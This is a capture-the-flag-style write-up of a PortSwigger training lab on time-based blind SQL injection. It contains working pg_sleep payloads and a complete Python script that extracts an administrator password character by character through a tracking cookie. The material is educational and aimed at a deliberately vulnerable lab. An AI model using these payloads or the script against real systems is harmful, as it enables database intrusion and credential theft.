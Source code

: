 # Lab13: Blind SQL injection with time delays and information retrieval
* url: `https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval`
* vulnerability: `Time-Based Blind SQL Injection`
* cheatsheet: `https://portswigger.net/web-security/sql-injection/cheat-sheet`


## Description 
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Proof of Concept
1. Similar to the last lab, I am faced with a situation where I have to exploit the SQLi vulnerability of a web
application where the results of the query are not returned, the application does not respond any differently based 
on whether the query returns any rows or causes errors. So, I must test out the web application with a `time-based`
injection to see how it reacts: `'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`. The web app 
takes approx. 10 seconds to send me a response, so I can assume that my initial payload worked. 
> Note that you must URL Encode the payload for it to work as intended!

2. Because my last payload worked, I can now start to tweak it so I can gather information from the database. The 
logic here is that I can alter my `condition` in my payload so that if the web app gives me a response that takes 
`10 seconds` I can assume that my condition is true. For instance: `'; SELECT CASE WHEN (SELECT 'a' FROM users WHERE username = 'administrator') = 'a' THEN pg_sleep(10) ELSE pg_sleep(0) END--`  
Because this payload caused the web application to give me a delayed (`10 seconds`) response, I can assume that 
both the `users` table and a username called `administrator` exists! 
3. Next, I will try to extract the length of the password for `administrator`. I can do this by altering my previous 
payload: `'; SELECT CASE WHEN (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password)=1) = 'a' THEN pg_sleep(10) ELSE pg_sleep(0) END--`  
I can increment `LENGTH(password)=1` by 1 until I get a delayed response. 
> The password length is 20!

4. Next, I need to extract the exact `password` for `administrator`. `'; SELECT CASE WHEN (SELECT 'a' FROM users WHERE username = 'administrator' AND SUBSTRING(password, 1, 1)='x') = 'a' THEN pg_sleep(10) ELSE pg_sleep(0) END--`
I could use Burp Suite's `intruder`, however because I have the community (free) version, it would be faster for me to write a simple python script: 

```
import requests

# global variables 
url = "https://0a540009039055438250fb970087007e.web-security-academy.net/filter?category=Lifestyle"
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
password = ""

for x in range(1, 21): 
    for c in characters:
        cookie = dict(TrackingId=f"p2Yocofrzuxzjn5M'%3b+SELECT+CASE+WHEN+(SELECT+'a'+FROM+users+WHERE+username+%3d+'administrator'+AND+SUBSTRING(password,{x},+1)%3d'{c}')+%3d+'a'+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--")
        r = requests.get(url, cookies=cookie)
        
        if r.elapsed.total_seconds() >= 10: 
            password += c
            print(f"Found {c} at index {x}")
            break

print(f"The password is: {password}")
```

5. From running my custom python script, I got the password value of `ab8gjbubf6uz1b79vaw6`. I can use the credentials of username: `administrator`, password: `ab8gjbubf6uz1b79vaw6` to log in and solve the lab!
